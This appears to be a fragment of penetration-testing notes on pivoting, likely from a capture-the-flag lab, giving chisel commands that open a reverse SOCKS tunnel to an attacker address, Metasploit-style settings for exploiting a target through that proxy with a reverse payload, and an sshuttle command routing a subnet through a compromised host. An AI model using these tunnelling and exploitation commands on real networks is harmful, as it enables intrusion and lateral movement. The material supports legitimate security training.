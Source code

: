 ```bash
chisel server -p 8080 --reverse

chisel.exe client 10.10.14.91:8080 R:socks
```
- Exploit a vulnerability through SOCKS
```bash
set lhost 10.10.14.91

set rhost 10.9.15.11

set lport 8443

set proxies socks5:127.0.0.1:1080

set payload ……

set reverseallowproxy true

run
```

### SSHuttle
```bash
sshuttle -r bob@172.16.90.197 172.16.90.1/24
```
